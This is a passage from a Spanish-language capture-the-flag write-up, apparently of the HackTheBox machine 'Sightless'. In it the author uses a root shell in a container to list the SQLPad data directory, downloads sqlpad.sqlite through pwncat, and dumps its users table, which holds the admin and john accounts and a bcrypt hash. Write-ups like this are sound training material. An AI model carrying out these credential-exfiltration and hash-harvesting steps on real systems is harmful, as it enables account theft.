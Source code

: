 ## User Pivoting
Detectamos una base de datos SQLite llamada `sqlpad.sqlite`
```console
(remote) root@c184118df0a6:/var/lib/sqlpad# ls -la
total 236
-rw-r--r-- 1 root root      0 Sep  9 17:06 '*'
drwxr-xr-x 4 root root   4096 Sep  9 17:14  .
drwxr-xr-x 1 root root   4096 Mar 12  2022  ..
-rw-r--r-- 1 root root      0 Sep  9 17:06  as.db
drwxr-xr-x 2 root root   4096 Aug  9 11:17  cache
-rw-r--r-- 1 root root      0 Sep  9 17:06  db.db
-rw-r--r-- 1 root root      5 Sep  9 16:56 'index.html?hQkCcZQMjNta='
-rw-r--r-- 1 root root      5 Sep  9 17:08 'index.html?jbXWVuIjmuq='
-rw-r--r-- 1 root root    336 Sep  9 17:09 'index.html?jbXWVuIjmuq=.1'
-rw-r--r-- 1 root root    336 Sep  9 17:09 'index.html?jbXWVuIjmuq=.1.1'
-rw-r--r-- 1 root root    336 Sep  9 17:10 'index.html?jbXWVuIjmuq=.2'
-rw-r--r-- 1 root root    336 Sep  9 17:10 'index.html?jbXWVuIjmuq=.2.1'
-rw-r--r-- 1 root root    336 Sep  9 17:14 'index.html?jbXWVuIjmuq=.3'
-rw-r--r-- 1 root root    488 Sep  9 17:11 'index.html?jbXWVuIjmuq=Kgphcy5kYgpjYWNoZQpkYi5kYgppbmRleC5odG1sP2hRa0NjWlFNak50YT0KaW5kZXguaHRtbD9q'
-rw-r--r-- 1 root root    488 Sep  9 17:11 'index.html?jbXWVuIjmuq=Kgphcy5kYgpjYWNoZQpkYi5kYgppbmRleC5odG1sP2hRa0NjWlFNak50YT0KaW5kZXguaHRtbD9q.1'
drwxr-xr-x 2 root root   4096 Aug  9 11:17  sessions
-rw-r--r-- 1 root root 188416 Sep  9 17:15  sqlpad.sqlite
```

Haciendo uso de la función `download` de `pwncat` me voy a descargar el archivo.
```console
(local) pwncat$ download sqlpad.sqlite
sqlpad.sqlite ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 188.4/188.4 kB • ? • 0:00:00
[21:16:23] downloaded 188.42KiB in 0.43 seconds                                                                                     download.py:71
(local) pwncat$

```

Encontramos unos usuarios `admin` y `john` y un hash.
```console
$ sqlite3 sqlpad.sqlite 
SQLite version 3.40.1 2022-12-28 14:03:47
Enter ".help" for usage hints.
sqlite> .tables
batches              query_acl            statements         
cache                query_tags           users              
connection_accesses  schema_version       vw_query_history   
connections          service_tokens     
queries              sessions           
sqlite> select * from users;
da9a25f7-588c-40f5-89db-58fbebab591f|admin@sightless.htb|admin||$2a$10$cjbITibC.4BQQKJ8NOBUv.p0bG2n8t.RIIKRysR6pZnxquAWsLFcC||||2024-05-15 04:48:09.377 +00:00|2024-05-15 18:16:54.652 +00:00|0||
26113beb-60eb-4a58-81eb-2318e27eb3bf|john@sightless.htb|editor|||2d3499e3-16ba-4b4b-a49e-c7c5dca89f2d|||2024-05-15 12:29:23.725 +00:00|2024-05-15 12:29:27.257 +00:00||0|
sqlite> 
```

